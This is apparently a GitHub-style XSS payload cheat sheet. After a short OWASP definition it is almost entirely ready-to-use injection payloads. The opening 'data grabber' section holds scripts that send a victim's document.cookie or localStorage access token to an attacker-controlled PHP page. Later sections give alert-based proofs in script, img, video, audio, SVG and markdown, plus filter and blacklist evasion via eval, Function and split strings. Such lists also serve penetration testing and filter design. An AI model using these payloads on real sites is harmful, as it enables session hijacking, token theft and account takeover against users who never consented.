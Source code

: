 # XSS
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
>
>Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

> 📖 More information: https://owasp.org/www-community/attacks/xss/

---

## Data grabber for XSS
> Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```js
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```
```js
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```

## XSS in HTML/Applications
### Basic Payload
```js
<script>alert('XSS')</script>
```
```js
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
```js
"><script>alert("XSS")</script>
```
```js
"><script>alert(String.fromCharCode(88,83,83))</script>
```

### Img tag payload
```html
<img src=x onerror=alert('XSS');>
```
```html
<img src=x onerror=alert('XSS')//
```
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```
```html
"><img src=x onerror=alert("XSS");>
```
```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

### Video tag payload
```html
<video autoplay onloadstart="alert('XSS')" src=x></video>
```
```html
<video autoplay controls onplay="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadeddata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadedmetadata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadstart="alert('XSS')"><source src="x"></video>
```
```html
<video controls oncanplay="alert('XSS')"><source src="x"></video>
```

### Audio tag payload
```html
<audio autoplay controls onplay="alert('XSS')"><source src="x"></audio>
```
```html
<audio autoplay controls onplaying="alert('XSS')"><source src="x"></audio>
```

## XSS in Markdown
```md
[a](javascript:prompt(document.cookie))
```
```md
[a](j a v a s c r i p t:prompt(document.cookie))
```
```md
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```
```md
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG (short)
```html
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
```
```html
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```
```html
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```
```html
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

## Bypass word blacklist with code evaluation
```js
eval('ale'+'rt(0)');
```
```js
Function('ale'+'rt(1)')();
```
```js
new Function`alert`6``;
```
```js
setTimeout('ale'+'rt(2)');
```
```js
setInterval('ale'+'rt(10)');
```
```js
Set.constructor('ale'+'rt(13)')();
```
```js
Set.constructor`alert(14)```;
```

---

## 📚 References
- [owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsec.expert/posts/xss-in-2021/](https://netsec.expert/posts/xss-in-2021/)
- [portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [en.wikipedia.org/wiki/Cross-site_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)













